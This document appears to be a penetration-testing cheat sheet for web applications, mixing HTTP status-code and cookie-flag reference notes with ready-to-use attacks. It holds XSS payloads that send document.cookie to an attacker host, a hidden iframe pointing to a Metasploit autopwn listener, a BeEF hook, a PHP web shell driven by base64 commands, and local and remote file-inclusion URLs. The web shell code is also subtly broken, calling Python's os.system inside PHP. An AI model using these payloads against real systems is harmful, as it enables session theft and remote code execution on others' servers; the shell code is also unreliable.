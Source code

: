 # Web Apps


### Request Methods
```
GET  Passes all query material in the URL query string.
POST Passes all requested data in the HTTP request body.
------------------------------------------------------------------------------------------------------
```
### Common Response Status Codes
```
1xx  Informational
100  Continue

2xx  Success
200  OK

3xx  Redirection
301  Moved Permanently
302  Found

4xx  Client Error
401  Unauthorized
403  Forbidden
404  Not Found
408  Request Timeout

5xx  Server Error
500  Internal Server Error
------------------------------------------------------------------------------------------------------
```
### Cookies
```
Secure - only send over encrypted channel
HttpOnly - prevents JavaScript from accessing the cookie
------------------------------------------------------------------------------------------------------
```
### Apache version, eTag, HTTP Basic Authentication Enabled
```
telnet <target IP> 80
HEAD / HTTP/1.0
(hit enter 2x)

for i in `cat 80.txt` ; do curl -iskXHEAD http://$i/ > $i 2>&1 ; echo Scanned $i ; done
------------------------------------------------------------------------------------------------------
```
### Browser Redirection
```
<iframe SRC="http://hackerip/report" height = "0" width ="0">
hacker:  use Metasploit browser autopwn listening on hackerip
------------------------------------------------------------------------------------------------------
```
### Cisco Router
```
x is between 15 and 99.
https://targetIP/level/x/exec/-/show
------------------------------------------------------------------------------------------------------
```
### Cookie Security Issues - missing HttpOnly or Secure attribute
```
Firefox
Cookies > View Cookie Information
HttpOnly cookie tells the browser if a Java scripts tries to access the cookie, the browser should not return a value.

for i in `cat 80.txt` ; do curl -iskXHEAD http://$i/ > $i 2>&1 ; echo Scanned $i ; done
------------------------------------------------------------------------------------------------------
```
### Cookie Stealing
```
<script>new Image().src="http://hackerip/woot.php?"+ document.cookie;</script>
hacker:  nc -lvp 80
------------------------------------------------------------------------------------------------------
```
### File upload vuln
```
Create a php file called evil.php
<?php
$cmd=$_GET["cmd"];
$decode=base64_decode($cmd);
os.system($decode);
?>

Once the malicious file is in place, pass base64 encoded commands to it, and get basic code execution on the web server, as the “apache” user.

wget -O output -o /dev/null www.target.com/photos/evil.php?cmd=$(echo id|base64)
cat output

wget -O output -o /dev/null www.target.com/photos/evil.php?cmd=$(echo ifconfig|base64)
cat output
------------------------------------------------------------------------------------------------------
```
### Fuzzing
```
When fuzzing headers, disable URL Encode.
When you are inside of a POST parameter, always use URL encoding.
------------------------------------------------------------------------------------------------------
```
### Local file inclusion
```
http://localhost/index.php?page=/etc/passwd
------------------------------------------------------------------------------------------------------
```
### PHP version
```
telnet <target IP> 80
GET / HEAD/1.0

http://target IP/aaaaa.php

Firefox > Web Developer Toolbar > Information > View Response Headers
------------------------------------------------------------------------------------------------------
```
### Remote file inclusion

http://localhost/index.php?page=http://attackersHost/evil.txt
------------------------------------------------------------------------------------------------------
```
### TRACE / TRACK methods allowed
```
telnet <target IP> 80
OPTIONS / HTTP/1.0
hit enter twice

### WebDAV extensions are enabled
```
msfconsole
use auxiliary/scanner/http/webdav_scanner

./davtest.pl -url http://target-IP

for i in $(cat 80.txt); do cadaver -t $i; done
------------------------------------------------------------------------------------------------------
```
### WordPress XSS vuln
```
wpscan.rb - -url www.target.com - -enumerate p
------------------------------------------------------------------------------------------------------
```
### XML Injection
```
Single quote         foo'
Double quote         foo”
Greater than         foo>
Less than            foo<
Comment tag          foo<!--
Ampersand            &foo
------------------------------------------------------------------------------------------------------
```
### XSS
```
http://target.com/index.php?user=<script>alert(1)</script>
http://target.com/index.php?user=<script>alert("Test XSS")alert</script>

curl https://target.com/login.php?user=`perl –e 'print "a" x 500'`

<iframe height=”0″ width=”0″ src=<BeEF_hook></iframe>

<script>alert(document.cookie)</script>
<script>var img = new Image(); img.src=“http://127.0.0.1:8000/?cookie=“+document.cookie;</script>
```
